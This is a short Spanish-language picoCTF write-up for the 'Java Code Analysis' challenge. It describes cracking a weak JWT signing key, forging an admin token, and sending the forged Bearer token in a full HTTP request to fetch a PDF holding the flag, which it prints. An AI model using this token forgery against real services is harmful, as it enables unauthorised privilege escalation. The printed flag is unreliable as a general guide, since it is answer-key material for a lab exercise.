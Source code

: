  
 
# Java Code Analysis!?!


## Solucion
- loguearse como user user
- crackear token jwt resulto en la llave `1234`
- darle el role `Admin` al parecer no eraa todo si no el userId `2` era el admin
 ```
 {
  "role": "Admin",
  "iss": "bookshelf",
  "exp": 1679969214,
  "iat": 1679364414,
  "userId": 2,
  "email": "user"
}
```


- solicitar el pdf del libro
```
GET /base/books/pdf/5 HTTP/1.1
Host: saturn.picoctf.net:60178
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: */*
Accept-Language: es-MX,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://saturn.picoctf.net:60178/
authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiQWRtaW4iLCJpc3MiOiJib29rc2hlbGYiLCJleHAiOjE2Nzk5NjkyMTQsImlhdCI6MTY3OTM2NDQxNCwidXNlcklkIjoyLCJlbWFpbCI6InVzZXIifQ.spIiXpUbc2fMUip4p_2eY53rMr_JKxsXYuRXnI54wlw
Connection: close
Cookie: PHPSESSID=lj3gcm06t7pt9nsbdvqd1uerm6
```

```
HTTP/1.1 200 
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
X-Frame-Options: DENY
Content-Type: application/pdf
Content-Length: 939
Date: Tue, 21 Mar 2023 02:28:11 GMT
Connection: close
..
..

(picoCTF{w34k_jwt_n0t_g00d_602ce414})'
```
## Bandera
picoCTF{w34k_jwt_n0t_g00d_602ce414}